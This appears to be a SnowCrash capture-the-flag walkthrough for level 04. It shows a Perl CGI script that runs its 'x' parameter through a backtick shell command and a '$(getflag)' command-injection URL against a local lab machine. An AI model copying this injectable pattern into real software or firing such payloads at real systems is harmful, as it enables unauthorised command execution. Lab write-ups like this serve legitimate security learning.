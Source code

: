 We begin by exploring the files and find a Perl script named `level04.pl`.

```
level04@SnowCrash:~$ ls
level04.pl
```

Inspecting the contents of `level04.pl` reveals the following code:

```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The script runs a CGI program that takes a parameter `x` and executes it with an `echo` command. This indicates a potential command injection vulnerability.

We identify the website URL as `http://192.168.56.101:4747/` and craft a URL with a command injection payload:

```
http://192.168.56.101:4747/?x=$(getflag)
```

This injects the `getflag` command through the `x` parameter.

The response returns:

```
Check flag.Here is your token :
```

Success!
